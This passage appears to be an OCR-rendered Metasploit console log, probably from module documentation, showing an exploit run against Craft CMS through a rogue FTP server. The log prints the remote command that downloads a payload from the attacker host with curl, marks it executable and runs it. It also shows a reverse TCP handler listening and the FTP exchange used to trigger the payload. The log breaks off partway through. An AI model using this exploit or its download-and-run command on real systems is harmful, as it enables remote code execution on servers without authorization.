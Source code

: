 ```bash

   Id  Name
   --  ----
   0   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/craftcms_ftp_template) > exploit
[*] Command to run on remote host: curl -so ./jlVAsfWu http://192.168.1.36:8081/LoPlnjEpeOexZNVppn6cAA;chmod +x ./jlVAsfWu;./jlVAsfWu&
[*] Exploit running as background job 57.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/craftcms_ftp_template) >
[*] Fetch handler listening on 192.168.1.36:8081
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Performing vulnerability check...
[+] The target is vulnerable.
[*] Starting FTP service...
[*] Started service listener on 192.168.1.36:9090
[*] FTP server started on 192.168.1.36:9090
[*] Sending HTTP request to trigger the payload...
[*] Triggering HTTP request...
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 250 "/default" is current directory.
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 550 /default is not retrievable.
[*] on_client_command_mdtm
[*] -> 550 /default is not retrievable.
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 550 Not a directory
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_mdtm
[*] -> 213 20250110170738
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 550 Not a directory
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
```
